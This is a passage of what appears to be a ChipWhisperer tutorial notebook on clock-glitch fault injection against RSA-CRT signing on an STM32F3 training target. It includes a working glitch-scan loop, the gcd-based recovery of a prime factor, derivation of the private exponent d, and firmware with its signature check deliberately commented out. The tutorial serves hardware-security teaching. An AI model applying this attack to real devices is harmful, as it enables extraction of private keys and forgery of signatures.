    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -x assembler-with-cpp -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -DF_CPU=7372800 -Wa,-gstabs,-adhlns=objdir/stm32f3_startup.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include .././hal/stm32f3/stm32f3_startup.S -o objdir/stm32f3_startup.o
    .
    Linking: simpleserial-rsa-CWLITEARM.elf
    arm-none-eabi-gcc -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-rsa.o -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/simpleserial-rsa-CWLITEARM.elf.d objdir/simpleserial-rsa.o objdir/simpleserial-rsa-xmega.o objdir/simpleserial-rsa-arm.o objdir/simpleserial.o objdir/stm32f3_hal.o objdir/stm32f3_hal_lowlevel.o objdir/stm32f3_sysmem.o objdir/rsa.o objdir/bignum.o objdir/md.o objdir/md5.o objdir/md_wrap.o objdir/sha1.o objdir/sha256.o objdir/sha512.o objdir/ripemd160.o objdir/oid.o objdir/stm32f3_startup.o --output simpleserial-rsa-CWLITEARM.elf --specs=nano.specs -T .././hal/stm32f3/LinkerScript.ld -Wl,--gc-sections -lm -Wl,-Map=simpleserial-rsa-CWLITEARM.map,--cref   -lm  
    .
    Creating load file for Flash: simpleserial-rsa-CWLITEARM.hex
    arm-none-eabi-objcopy -O ihex -R .eeprom -R .fuse -R .lock -R .signature simpleserial-rsa-CWLITEARM.elf simpleserial-rsa-CWLITEARM.hex
    .
    Creating load file for EEPROM: simpleserial-rsa-CWLITEARM.eep
    arm-none-eabi-objcopy -j .eeprom --set-section-flags=.eeprom="alloc,load" \
    	--change-section-lma .eeprom=0 --no-change-warnings -O ihex simpleserial-rsa-CWLITEARM.elf simpleserial-rsa-CWLITEARM.eep || exit 0
    .
    Creating Extended Listing: simpleserial-rsa-CWLITEARM.lss
    arm-none-eabi-objdump -h -S -z simpleserial-rsa-CWLITEARM.elf > simpleserial-rsa-CWLITEARM.lss
    .
    Creating Symbol Table: simpleserial-rsa-CWLITEARM.sym
    arm-none-eabi-nm -n simpleserial-rsa-CWLITEARM.elf > simpleserial-rsa-CWLITEARM.sym
    Size after:
       text	   data	    bss	    dec	    hex	filename
      20956	    108	   1820	  22884	   5964	simpleserial-rsa-CWLITEARM.elf
    +--------------------------------------------------------
    + Built for platform CW-Lite Arm (STM32F3)
    +--------------------------------------------------------





.. parsed-literal::

    simpleserial-rsa-arm.c: In function 'simpleserial_mbedtls_rsa_rsassa_pkcs1_v15_sign':
    simpleserial-rsa-arm.c:190:28: warning: unused variable 'diff_no_optimize' [-Wunused-variable]
         volatile unsigned char diff_no_optimize;
                                ^~~~~~~~~~~~~~~~
    simpleserial-rsa-arm.c:189:19: warning: unused variable 'diff' [-Wunused-variable]
         unsigned char diff;
                       ^~~~
    simpleserial-rsa-arm.c:188:12: warning: unused variable 'i' [-Wunused-variable]
         size_t i;
                ^
    simpleserial-rsa-arm.c: In function 'real_dec':
    simpleserial-rsa-arm.c:344:21: warning: pointer targets in passing argument 1 of 'mbedtls_sha256' differ in signedness [-Wpointer-sign]
          mbedtls_sha256(MESSAGE, 12, hash, 0);
                         ^~~~~~~
    In file included from simpleserial-rsa-arm.c:28:0:
    .././crypto/mbedtls//include/mbedtls/sha256.h:127:6: note: expected 'const unsigned char \*' but argument is of type 'const char \*'
     void mbedtls_sha256( const unsigned char \*input, size_t ilen,
          ^~~~~~~~~~~~~~
    simpleserial-rsa-arm.c: In function 'get_pt':
    simpleserial-rsa-arm.c:370:1: warning: control reaches end of non-void function [-Wreturn-type]
     }
     ^



Attack Script
-------------

Start by initializing the ChipWhisperer:


**In [4]:**

.. code:: ipython3

    %run "Helper_Scripts/Setup.ipynb"


**In [5]:**

.. code:: ipython3

    if SCOPETYPE == "OPENADC":
        scope.clock.adc_src = "clkgen_x1"

Next, program it with our new firmware:


**In [6]:**

.. code:: ipython3

    import time
    fw_path = "../hardware/victims/firmware/simpleserial-rsa/simpleserial-rsa-{}.hex".format(PLATFORM)
    cw.program_target(scope, prog, fw_path)
    time.sleep(1)


**Out [6]:**



.. parsed-literal::

    Detected known STMF32: STM32F302xB(C)/303xB(C)
    Extended erase (0x44), this can take ten seconds or more
    Attempting to program 21063 bytes at 0x8000000
    STM32F Programming flash...
    STM32F Reading flash...
    Verified flash OK, 21063 bytes
    


Verifying Signatures
~~~~~~~~~~~~~~~~~~~~

Let's start by seeing if we can verify the signature that we get back.
First, we run the signature calculation (there's a ``time.sleep()`` here
to make sure the calculation finishes. You may need to increase this):


**In [7]:**

.. code:: ipython3

    import time
    target.flush()
    scope.arm()
    target.write("t\n")
        
    ret = scope.capture()
    if ret:
        print('Timeout happened during acquisition')
        
    time.sleep(2)
    output = target.read(timeout=10)


**In [8]:**

.. code:: ipython3

    if SCOPETYPE == "OPENADC":
        print(scope.adc.trig_count)


**Out [8]:**



.. parsed-literal::

    12693569
    


As you can see, the signature takes a long time! For the STM32F3, it
should be around 12.7M cycles. Next, let's get the rest of the signature
back and see what it looks like.


**In [9]:**

.. code:: ipython3

    target.write("1\n")
    time.sleep(0.2)
    output += target.read(timeout=10)
    
    target.write("2\n")
    time.sleep(0.2)
    output += target.read(timeout=10)


**In [10]:**

.. code:: ipython3

    print(output)


**Out [10]:**



.. parsed-literal::

    r4F09799F6A59081B725599753330B7A2440ABC42606601622FE0C582646E32555303E1062A2989D9B4C265431ADB58DD
    z00
    r85BB33C4BB237A311BC40C1279528FD6BB36F94F534A4D8284A18AB8E5670E734C55A6CCAB5FB5EAE02BA37E2D56648D
    z00
    r7A13BBF17A0E07D607C07CBB72C7A7A77076376E8434CE6E136832DC95DB3D80
    z00
    
    


You should see something like:

::

    r4F09799F6A59081B725599753330B7A2440ABC42606601622FE0C582646E32555303E1062A2989D9B4C265431ADB58DD
    z00
    r85BB33C4BB237A311BC40C1279528FD6BB36F94F534A4D8284A18AB8E5670E734C55A6CCAB5FB5EAE02BA37E2D56648D
    z00
    r7A13BBF17A0E07D607C07CBB72C7A7A77076376E8434CE6E136832DC95DB3D80
    z00

We'll need to strip all the extra simpleserial stuff out. This can be
done like so:


**In [11]:**

.. code:: ipython3

    newout = output.replace("r", "").replace("\nz00","").replace("\n","")
    print(newout)


**Out [11]:**



.. parsed-literal::

    4F09799F6A59081B725599753330B7A2440ABC42606601622FE0C582646E32555303E1062A2989D9B4C265431ADB58DD85BB33C4BB237A311BC40C1279528FD6BB36F94F534A4D8284A18AB8E5670E734C55A6CCAB5FB5EAE02BA37E2D56648D7A13BBF17A0E07D607C07CBB72C7A7A77076376E8434CE6E136832DC95DB3D80
    


Then we can convert this to binary using binascii:


**In [12]:**

.. code:: ipython3

    from binascii import unhexlify, hexlify
    sig = unhexlify(newout)

Finally, we can verify that the signature is correct using the
PyCryptodome package:


**In [13]:**

.. code:: ipython3

    from Crypto.PublicKey import RSA
    from Crypto.Signature import PKCS1_v1_5 
    
    from Crypto.Hash import SHA256
    
    E = 0x10001
    N = 0x9292758453063D803DD603D5E777D7888ED1D5BF35786190FA2F23EBC0848AEADDA92CA6C3D80B32C4D109BE0F36D6AE7130B9CED7ACDF54CFC7555AC14EEBAB93A89813FBF3C4F8066D2D800F7C38A81AE31942917403FF4946B0A83D3D3E05EE57C6F5F5606FB5D4BC6CD34EE0801A5E94BB77B07507233A0BC7BAC8F90F79
    m = b"Hello World!"
    
    hash_object = SHA256.new(data=m)
    pub_key = RSA.construct((N, E))
    signer = PKCS1_v1_5.new(pub_key) 
    sig_check = signer.verify(hash_object, sig)
    print(sig_check)
    
    assert sig_check, "Failed to verify signature on device. Got: {}".format(newout)


**Out [13]:**



.. parsed-literal::

    True
    


If everything worked out correctly, you should see ``True`` printed
above. Now onto the actual attack.

Getting a Glitch
~~~~~~~~~~~~~~~~

As usual, we'll start off by setting up the glitch module:


**In [14]:**

.. code:: ipython3

    scope.glitch.clk_src = "clkgen"
    scope.glitch.output = "clock_xor"
    scope.glitch.trigger_src = "ext_single"
    scope.glitch.repeat = 1
    scope.glitch.width = -9
    scope.glitch.offset = -38.3
    scope.io.hs2 = "glitch"
    print(scope.glitch)
    from collections import namedtuple
    Range = namedtuple('Range', ['min', 'max', 'step'])


**Out [14]:**



.. parsed-literal::

    clk_src     = clkgen
    width       = -8.984375
    width_fine  = 0
    offset      = -38.28125
    offset_fine = 0
    trigger_src = ext_single
    arm_timing  = after_scope
    ext_offset  = 0
    repeat      = 1
    output      = clock_xor
    
    


Now for our actual attack loop. There's a lot going on here, so we'll
move through a little slower than usual. Overall, what we want to do is:
\* Insert a glitch \* Read the signature back \* Verify that it's
correct

The first step is the same as earlier. For the last two, we'll cheat a
little by checking the for the beginning of the correct signature before
proceeding, but we could also read back the whole thing:

.. code:: python

    # Read back signature
    num_char = target.ser.inWaiting()
    output = target.ser.read(num_char, timeout=10)
        if "4F09799" not in output:
            #Something abnormal has happened

Now that we've found some abnormal behaviour, we need to verify that the
target hasn't crashed. This can be done pretty easily by checking if we
got anything at all:

.. code:: python

    if "4F09799" not in output:
        #Something abnormal has happened
        if len(output) > 0:
            # Possible glitch!
        else:
            # Crash, reset and try again
            print(f"Probably crash at {scope.glitch.ext_offset}")
            reset_target(scope)
            time.sleep(0.5)

As a last step, we'll build our full signature and do one final check to
make sure everything looks okay:

.. code:: python

    if len(output) > 0:
        # Possible glitch!
        print(f"Possible glitch at offset {scope.glitch.ext_offset}\nOutput: {output}")
        
        # get rest of signature back
        target.go_cmd = '1\\n'
        target.go()
        time.sleep(0.2)
        num_char = target.ser.inWaiting()
        output += target.ser.read(num_char, timeout=10)

        target.go_cmd = '2\\n'
        target.go()
        time.sleep(0.2)
        num_char = target.ser.inWaiting()
        output += target.ser.read(num_char, timeout=10)
        
        # strip out extra simpleserial stuff
        newout = output.replace("r", "").replace("\nz00","").replace("\n","")
        
        print(f"Full output: {newout}")
        if (len(newout) == 256) and "r0001F" not in output:
            print("Very likely glitch!")
            break

We'll add in scanning over different over different offsets as well.
We'll start at an offset of 7M cycles. We actually have a lot of area
that we could place the glitch in, so the starting point is fairly
arbitrary. For the STM32F3, this places the glitch near the beginning of
the calculation for :math:`s_2`. If you'd like, you can move
``trigger_low()`` into ``simpleserial_mbedtls_rsa_private()`` to see how
long different parts of the algorithm take.

All together, our attack loops looks like this:


**In [15]:**

.. code:: ipython3

    from tqdm import tnrange
    import time
    for i in tnrange(7000000, 7100000):
        scope.glitch.ext_offset = i
        scope.adc.timeout = 3
        target.flush()
        scope.arm()
        target.write("t\n")
        
        ret = scope.capture()
        if ret:
            print('Timeout happened during acquisition')
        time.sleep(2)
        
        # Read back signature
        output = target.read(timeout=10)
        if "4F09799" not in output:
            # Something abnormal happened
            if len(output) > 0:
                # Possible glitch!
                print("Possible glitch at offset {}\nOutput: {}".format(scope.glitch.ext_offset, output))
                
                # Get rest of signature back
                target.write("1\n")
                time.sleep(0.2)
                output += target.read(timeout=10)
                
                target.write("2\n")
                time.sleep(0.2)
                output += target.read(timeout=10)
                
                # Strip out extra simpleserial stuff
                newout = output.replace("r", "").replace("\nz00","").replace("\n","")
                print("Full output: {}".format(newout))
                if (len(newout) == 256) and "r0001F" not in output:
                    print("Very likely glitch!")
                    break
            else:
                # Crash, reset and try again
                print("Probably crashed at {}".format(scope.glitch.ext_offset))
                reset_target(scope)
                time.sleep(0.5)


**Out [15]:**





.. parsed-literal::

    Probably crashed at 7000012
    Probably crashed at 7000014
    Probably crashed at 7000017
    Probably crashed at 7000028
    Possible glitch at offset 7000042
    Output: r1187B790564D43D48CD140A7FF890EEA713D1603D8CBC57CF070EE951479C75E93FE98AD04F535109D957F9AB9AA25DB
    z00
    
    Full output: 1187B790564D43D48CD140A7FF890EEA713D1603D8CBC57CF070EE951479C75E93FE98AD04F535109D957F9AB9AA25DB2FB1A5521C68C986A270782B7A579A12B9AE79DF2F59ED9E6694C64C40AAD9FE46B203DB75792016EEA315F7CAA8F9AAC0FD89052FFAC29C022E32B541B150419E2B6604DDA6BF2582F62C9F7876393D
    Very likely glitch!
    


Now, let's convert our glitched signature to binary and move on to the
final part of the tutorial


**In [16]:**

.. code:: ipython3

    sig = unhexlify(newout)
    print(sig)


**Out [16]:**



.. parsed-literal::

    b'\x11\x87\xb7\x90VMC\xd4\x8c\xd1@\xa7\xff\x89\x0e\xeaq=\x16\x03\xd8\xcb\xc5|\xf0p\xee\x95\x14y\xc7^\x93\xfe\x98\xad\x04\xf55\x10\x9d\x95\x7f\x9a\xb9\xaa%\xdb/\xb1\xa5R\x1ch\xc9\x86\xa2px+zW\x9a\x12\xb9\xaey\xdf/Y\xed\x9ef\x94\xc6L@\xaa\xd9\xfeF\xb2\x03\xdbuy \x16\xee\xa3\x15\xf7\xca\xa8\xf9\xaa\xc0\xfd\x89\x05/\xfa\xc2\x9c\x02.2\xb5A\xb1PA\x9e+f\x04\xdd\xa6\xbf%\x82\xf6,\x9fxv9='
    


Completing The Attack
~~~~~~~~~~~~~~~~~~~~~

We've got our glitched signature, but we've still got a little work to
do. As was mentioned earlier, the message that's signed isn't the
original message, it's a PKCS#1 v1.5 padded hash of it. Luckily, this
standard's fairly simple. PKCS#1 v1.5 padding looks like:

\|00\|01\|ff...\|00\|hash\_prefix\|message\_hash\|

Here, the ff... part is a string of ff bytes long enough to make the
size of the padded message the same as n, while hash\_prefix is an
identifier number for the hash algorithm used on message\_hash. In our
case, SHA256 has the hash prefix
``3031300d060960864801650304020105000420``.

Altogether, the function to build this message looks like:


**In [17]:**

.. code:: ipython3

    def build_message(m, N):
        sha_id = "3031300d060960864801650304020105000420"
        N_len = (len(bin(N)) - 2 + 7) // 8
        pad_len = (len(hex(N)) - 2) // 2 - 3 - len(m)//2 - len(sha_id)//2
        padded_m = "0001" + "ff" * pad_len + "00" + sha_id + m
        return padded_m
    

Now that we've got our function, we can build our message:


**In [18]:**

.. code:: ipython3

    from Crypto.Hash import SHA256
    from binascii import hexlify
    
    hash_object = SHA256.new(data=b"Hello World!")
    hashed_m = hexlify(hash_object.digest()).decode()
    padded_m = build_message(hashed_m, N)
    print(hashed_m)
    print(padded_m)


**Out [18]:**



.. parsed-literal::

    7f83b1657ff1fc53b92dc18148a1d65dfc2d4b1fa3d677284addd200126d9069
    0001ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff003031300d0609608648016503040201050004207f83b1657ff1fc53b92dc18148a1d65dfc2d4b1fa3d677284addd200126d9069
    


Now all that's left is to use our gcd formula from earlier:

.. math:: p = gcd(s'^e - m, N)

And we should get either p or q! These calculations can take a while
(the Python version takes a few minutes), so the next block will try to
use gmpy2 (a high precision library that runs much quicker than base
Python). If you don't have gmpy2 installed, it will fall back to Python.


**In [19]:**

.. code:: ipython3

    from math import gcd
    N = 0x9292758453063D803DD603D5E777D7888ED1D5BF35786190FA2F23EBC0848AEADDA92CA6C3D80B32C4D109BE0F36D6AE7130B9CED7ACDF54CFC7555AC14EEBAB93A89813FBF3C4F8066D2D800F7C38A81AE31942917403FF4946B0A83D3D3E05EE57C6F5F5606FB5D4BC6CD34EE0801A5E94BB77B07507233A0BC7BAC8F90F79
    e = 0x10001
    try:
        import gmpy2
        from gmpy2 import mpz
        sig_int = mpz(int.from_bytes(sig, "big"))
        m_int = mpz(int.from_bytes(unhexlify(padded_m), "big"))
        p_test = gmpy2.gcd(sig_int**e - m_int, N)
    except (ImportError, ModuleNotFoundError) as error:
        print("gmpy2 not found, falling back to Python")
        sig_int = int.from_bytes(sig, "big")
        padded_m_int = int.from_bytes(unhexlify(padded_m), "big")
        a = int.from_bytes(sig, "big")**e - int.from_bytes(unhexlify(padded_m), "big")
        p_test = gcd(a, N)
        
    print(hex(p_test))


**Out [19]:**



.. parsed-literal::

    0xc36d0eb7fcd285223cfb5aaba5bda3d82c01cad19ea484a87ea4377637e75500fcb2005c5c7dd6ec4ac023cda285d796c3d9e75e1efc42488bb4f1d13ac30a57
    


Open up ``simpleserial-arm-rsa.c`` and see if the value printed out is
either p or q!

Getting the Rest of the Private Values
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

As mentioned earler, now that we have either p or q, we can derive the
rest of the private values. The easiest is the other prime factor, which
is just:


**In [20]:**

.. code:: ipython3

    q_test = N//p_test
    print(hex(q_test))


**Out [20]:**



.. parsed-literal::

    0xc000df51a7c77ae8d7c7370c1ff55b69e211c2b9e5db1ed0bf61d0d9899620f4910e4168387e3c30aa1e00c339a795088452dd96a9a5ea5d9dca68da636032af
    


Finally, there's d, which can be derived by:


**In [21]:**

.. code:: ipython3

    phi = (q_test - 1)*(p_test - 1)
    def egcd(a, b):
        x,y, u,v = 0,1, 1,0
        while a != 0:
            q, r = b//a, b%a
            m, n = x-u*q, y-v*q
            b,a, x,y, u,v = a,r, u,v, m,n
            gcd = b
        return gcd, x, y
    
    gcd, d, b = egcd(e, phi)
    
    print(hex(d))


**Out [21]:**



.. parsed-literal::

    0x24bf6185468786fdd303083d25e64efc66ca472bc44d253102f8b4a9d3bfa75091386c0077937fe33fa3252d28855837ae1b484a8a9a45f7ee8c0c634f99e8cddf79c5ce07ee72c7f123142198164234cabb724cf78b8173b9f880fc86322407af1fedfdde2beb674ca15f3e81a1521e071513a1e85b5dfa031f21ecae91a34d
    


Going Further
-------------

There's still more you can do with this attack:

-  You can try glitching the other part of the signature calculation to
   verify that you get the other prime factor of n out
-  We used clock glitching in this tutorial. You may want to try it with
   voltage glitching as well

As mentioned earlier in the tutorial, a verification of the calculated
signature was removed:

.. code:: c

        /* Compare in constant time just in case */
        /* for( diff = 0, i = 0; i < ctx->len; i++ ) */
        /*     diff |= verif[i] ^ sig[i]; */
        /* diff_no_optimize = diff; */

        /* if( diff_no_optimize != 0 ) */
        /* { */
        /*     ret = MBEDTLS_ERR_RSA_PRIVATE_FAILED; */
        /*     goto cleanup; */
        /* } */

This part is near the end of
``simpleserial_mbedtls_rsa_rsassa_pkcs1_v15_sign()``. If you want a
larger challenge, you can try uncommenting that and trying to glitch
past it as well.

Tests
-----


**In [22]:**

.. code:: ipython3

    real_p = "0xC36D0EB7FCD285223CFB5AABA5BDA3D82C01CAD19EA484A87EA4377637E75500FCB2005C5C7DD6EC4AC023CDA285D796C3D9E75E1EFC42488BB4F1D13AC30A57".lower()
    real_q = "0xC000DF51A7C77AE8D7C7370C1FF55B69E211C2B9E5DB1ED0BF61D0D9899620F4910E4168387E3C30AA1E00C339A795088452DD96A9A5EA5D9DCA68DA636032AF".lower()
    assert (hex(p_test) == real_p) or (hex(p_test) == real_q), f"Failed to break p or q. Got {hex(p_test)}, excepted {real_p} or {real_q}"


**In [23]:**

.. code:: ipython3

    assert (hex(q_test) == real_p) or (hex(q_test) == real_q), f"Failed to break p or q. Got {hex(p_test)}, excepted {real_p} or {real_q}"


**In [24]:**

.. code:: ipython3

    real_d = "0x24bf6185468786fdd303083d25e64efc66ca472bc44d253102f8b4a9d3bfa75091386c0077937fe33fa3252d28855837ae1b484a8a9a45f7ee8c0c634f99e8cddf79c5ce07ee72c7f123142198164234cabb724cf78b8173b9f880fc86322407af1fedfdde2beb674ca15f3e81a1521e071513a1e85b5dfa031f21ecae91a34d"
    assert (hex(d) == real_d), f"Failed to break private key d. Got {hex(d)}, expected {real_d}"


**In [ ]:**

